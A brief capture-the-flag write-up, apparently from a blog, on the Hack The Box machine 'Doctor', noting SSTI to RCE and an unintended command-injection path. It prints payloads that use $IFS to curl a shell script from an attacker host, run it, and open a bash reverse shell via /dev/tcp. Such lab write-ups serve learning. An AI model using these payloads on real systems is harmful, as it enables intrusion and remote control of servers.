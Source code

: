 ```yaml
---
layout: post
category: writeup
---
```



- doctor is an easy box from HTB
- vulnerable SSTI to RCE
- outdated splunkforwarder
- unintended RCE in content field




[![Doctor](https://img.youtube.com/vi/uxbwCMNQ2WA/0.jpg)](https://www.youtube.com/watch?v=uxbwCMNQ2WA "Doctor Walkthrough")


- as far as the uninteded path since i don't complete it i will explain it here:

first you will need to curl in a bash  payload and save to `/var/www/html`. next you will need to run it, so the payloads should look something like this:


```
# first payload
http://IP/$('curl'$IFS'http://IP/shell.sh'$IFS'-o'$IFS'/var/www/html/shell.sh')

# second payload

http://ip/$('bash'$IFS'/var/www/html/shell.sh')

# contents of shell.sh:

bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```

best, gerbsec